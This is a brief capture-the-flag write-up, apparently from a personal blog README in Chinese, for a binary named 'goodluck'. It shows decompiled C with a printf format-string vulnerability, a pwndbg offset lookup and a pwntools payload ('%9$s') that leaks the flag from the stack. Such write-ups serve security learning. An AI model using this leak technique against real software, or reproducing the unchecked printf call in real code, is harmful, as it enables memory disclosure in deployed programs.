


# Readme
#0blog

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+3h] [rbp-3Dh]
  signed int i; // [rsp+4h] [rbp-3Ch]
  signed int j; // [rsp+4h] [rbp-3Ch]
  char *format; // [rsp+8h] [rbp-38h]
  _IO_FILE *fp; // [rsp+10h] [rbp-30h]
  char *v9; // [rsp+18h] [rbp-28h]
  char v10[24]; // [rsp+20h] [rbp-20h]
  unsigned __int64 v11; // [rsp+38h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  fp = fopen("flag.txt", "r");
  for ( i = 0; i <= 21; ++i )
    v10[i] = _IO_getc(fp);
  fclose(fp);
  v9 = v10;
  puts("what's the flag");
  fflush(_bss_start);
  format = 0LL;
  __isoc99_scanf("%ms", &format);
  for ( j = 0; j <= 21; ++j )
  {
    v4 = format[j];
    if ( !v4 || v10[j] != v4 )
    {
      puts("You answered:");
      printf(format);
      puts("\nBut that was totally wrong lol get rekt");
      fflush(_bss_start);
      return 0;
    }
  }
  printf("That's right, the flag is %s\n", v9);
  fflush(_bss_start);
  return 0;
}
```

明显的格式化字符漏洞。

当输入“123456”时，断在printf：



可以看到flag在栈上的第5个位置，栈上的第一个为返回地址，但是64位的程序还有6个参数在寄存器中，所以参数就是第十个，相对的偏移地址就是9。
也可以使用`fmtarg `来获得参数的偏移：

```c
pwndbg> fmtarg 0x7fffffffe568
The index of format argument : 10
```




Payload:
```python
from pwn import *

p = process("./goodluck")

payload = "%9$s"
p.sendline(payload)
p.interactive()
```